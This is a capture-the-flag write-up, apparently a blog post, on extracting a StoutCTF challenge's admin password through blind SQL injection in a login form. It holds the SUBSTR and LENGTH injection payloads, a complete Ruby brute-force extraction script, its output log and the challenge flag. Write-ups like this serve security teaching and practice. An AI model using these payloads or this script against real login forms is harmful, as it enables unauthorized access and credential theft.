



> This writeup can also be viewed [here](https://slavetomints.com/posts/stoutctf-admin-login-part-2/)

> Challenge description:
>
>So now that you can log in, whats the admin password?

## Getting Ready


Alright, this is part two, if you haven't seen part one yet, feel free to read it first, so you get the idea of the challenge. You can find it [here](https://slavetomints.com/posts/stoutctf-admin-login-part-1/). 

### What We Know

Let's go over what we know so far:

- The login form is vulnerable to SQL injection
- If the SQL query being executed on the server returns true, you get logged in.
- If the SQL query being executed on the server returns false, you get denied authentication.
- We need to get the admin password

From this, I have an attack methodology. If you don't see it, take a few minutes and try to see how those parameters can be used to leverage an attack.

### Attack Methodology

Okay, if you haven't guessed already, we'll be using a Blind SQL attack. 

> Blind SQL (Structured Query Language) injection is a type of [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection) attack that asks the database true or false questions and determines the answer based on the applications response. This attack is often used when the web application is configured to show generic error messages, but has not mitigated the code that is vulnerable to SQL injection.
> 
> \- OWASP.org, source [here](https://owasp.org/www-community/attacks/Blind_SQL_Injection)


Let's use the same methodology we had with the previous challenge, take the suspected SQL query being run and "inject" out query so it makes sense too us, and makes troubleshooting easier. From the last writeup, the expected query being run on the server is this:

`SELECT * FROM users WHERE username = '{username}' AND password = '{password}'`

### SUBSTR

So what are we going to use here to return a true or false value? Well, we'll use the `SUBSTR` function. It will return a substring, and we can compare it to another string. If they're the same, then its true. And if they're different, then its false. Our iinjected SQL should look similar to this:

`' OR SUBSTR(password,1,1)='a' --`

### LENGTH

We also are going to use one thing before we use the `SUBSTR`, and that's the `LENGTH` function, just so we know how long the password is, and know when to stop guessing characters. that query should look like this:

`' OR LENGTH(password)=3 --`

And the full query on the server should look like this:

`SELECT * FROM users WHERE username = 'admin' AND password = '' OR LENGTH(password)=3 --'`

Let's try it!

## Figuring Out the Password Length



*Not 10*


*Not 20*


*Not 30*


*Not 40*



And just as it's the answer to the universe, the length is 42.

## It's Guessing Time

Alright, by now let's test our theory that the `SUBSTR` will work. We know that all flags begin with `STOUTCTF{`, so let's check if thats the first 9 characters of the admin password. We want to use this in the password field: `' OR SUBSTR(password,1,9)='STOUTCTF{' --`, 


Awesome! We got logged in! Now all we have to do is change the 9 to 10, and try to find the next character in the password. This can be pretty annoying to do by hand, so let's try writing a simple script to do it!.

### brute_force.rb

```ruby
# frozen_string_literal: true

require 'net/http'
require 'uri'
require 'openssl'

# This is the URL that is being attacked
URL = URI.parse('Go find your own URL, source code is on my GitHub https://github.com/slavetomints/ctf-challs')

# All possible characters that can be included in the flag
charset =
  ('a'..'z').to_a +
  ('A'..'Z').to_a +
  ('0'..'9').to_a +
  ['{', '}']

# Setting up the HTTPS connection to the URL
http = Net::HTTP.new(URL.host, URL.port)
http.use_ssl = true
http.verify_mode = OpenSSL::SSL::VERIFY_NONE

# Creating a blank string for the flag
flag = String.new

puts '[*] Starting blind SQLi extraction'

position = 1

# Brute force loop
loop do
  found_char = false

  # Creating the payload for each character
  charset.each do |char|
    payload = "' OR SUBSTR(password,#{position},1)='#{char}' --"

    # Connection info
    req = Net::HTTP::Post.new(URL.request_uri)
    req.set_form_data(
      'username' => 'admin',
      'password' => payload
    )

    # Sending the attack, and storing the response
    res = http.request(req)

    # This checks to see if the subtring was successful
    next unless res.code == '302' && res['Location']&.include?('/dashboard')

    # Add to the flag and continue
    flag << char
    puts "[+] Length: #{flag.length}, Found Char: #{char}, Flag: #{flag}"
    found_char = true
    break
  end

  break unless found_char

  position += 1
end

puts "[✓] Extracted flag: #{flag}"
```

### We Got It!

And the result:

```terminal
> ruby brute-force.rb
[*] Starting blind SQLi extraction
[+] Length: 1, Found Char: S, Flag: S
[+] Length: 2, Found Char: T, Flag: ST
[+] Length: 3, Found Char: O, Flag: STO
[+] Length: 4, Found Char: U, Flag: STOU
[+] Length: 5, Found Char: T, Flag: STOUT
[+] Length: 6, Found Char: C, Flag: STOUTC
[+] Length: 7, Found Char: T, Flag: STOUTCT
[+] Length: 8, Found Char: F, Flag: STOUTCTF
[+] Length: 9, Found Char: {, Flag: STOUTCTF{
[+] Length: 10, Found Char: 0, Flag: STOUTCTF{0
[+] Length: 11, Found Char: q, Flag: STOUTCTF{0q
[+] Length: 12, Found Char: y, Flag: STOUTCTF{0qy
[+] Length: 13, Found Char: y, Flag: STOUTCTF{0qyy
[+] Length: 14, Found Char: z, Flag: STOUTCTF{0qyyz
[+] Length: 15, Found Char: W, Flag: STOUTCTF{0qyyzW
[+] Length: 16, Found Char: C, Flag: STOUTCTF{0qyyzWC
[+] Length: 17, Found Char: u, Flag: STOUTCTF{0qyyzWCu
[+] Length: 18, Found Char: w, Flag: STOUTCTF{0qyyzWCuw
[+] Length: 19, Found Char: L, Flag: STOUTCTF{0qyyzWCuwL
[+] Length: 20, Found Char: 2, Flag: STOUTCTF{0qyyzWCuwL2
[+] Length: 21, Found Char: 3, Flag: STOUTCTF{0qyyzWCuwL23
[+] Length: 22, Found Char: u, Flag: STOUTCTF{0qyyzWCuwL23u
[+] Length: 23, Found Char: l, Flag: STOUTCTF{0qyyzWCuwL23ul
[+] Length: 24, Found Char: f, Flag: STOUTCTF{0qyyzWCuwL23ulf
[+] Length: 25, Found Char: A, Flag: STOUTCTF{0qyyzWCuwL23ulfA
[+] Length: 26, Found Char: z, Flag: STOUTCTF{0qyyzWCuwL23ulfAz
[+] Length: 27, Found Char: 9, Flag: STOUTCTF{0qyyzWCuwL23ulfAz9
[+] Length: 28, Found Char: P, Flag: STOUTCTF{0qyyzWCuwL23ulfAz9P
[+] Length: 29, Found Char: q, Flag: STOUTCTF{0qyyzWCuwL23ulfAz9Pq
[+] Length: 30, Found Char: C, Flag: STOUTCTF{0qyyzWCuwL23ulfAz9PqC
[+] Length: 31, Found Char: A, Flag: STOUTCTF{0qyyzWCuwL23ulfAz9PqCA
[+] Length: 32, Found Char: 1, Flag: STOUTCTF{0qyyzWCuwL23ulfAz9PqCA1
[+] Length: 33, Found Char: q, Flag: STOUTCTF{0qyyzWCuwL23ulfAz9PqCA1q
[+] Length: 34, Found Char: R, Flag: STOUTCTF{0qyyzWCuwL23ulfAz9PqCA1qR
[+] Length: 35, Found Char: B, Flag: STOUTCTF{0qyyzWCuwL23ulfAz9PqCA1qRB
[+] Length: 36, Found Char: j, Flag: STOUTCTF{0qyyzWCuwL23ulfAz9PqCA1qRBj
[+] Length: 37, Found Char: i, Flag: STOUTCTF{0qyyzWCuwL23ulfAz9PqCA1qRBji
[+] Length: 38, Found Char: 0, Flag: STOUTCTF{0qyyzWCuwL23ulfAz9PqCA1qRBji0
[+] Length: 39, Found Char: c, Flag: STOUTCTF{0qyyzWCuwL23ulfAz9PqCA1qRBji0c
[+] Length: 40, Found Char: C, Flag: STOUTCTF{0qyyzWCuwL23ulfAz9PqCA1qRBji0cC
[+] Length: 41, Found Char: e, Flag: STOUTCTF{0qyyzWCuwL23ulfAz9PqCA1qRBji0cCe
[+] Length: 42, Found Char: }, Flag: STOUTCTF{0qyyzWCuwL23ulfAz9PqCA1qRBji0cCe}
[✓] Extracted flag: STOUTCTF{0qyyzWCuwL23ulfAz9PqCA1qRBji0cCe}
```

Awesome!

FLAG: `STOUTCTF{0qyyzWCuwL23ulfAz9PqCA1qRBji0cCe}`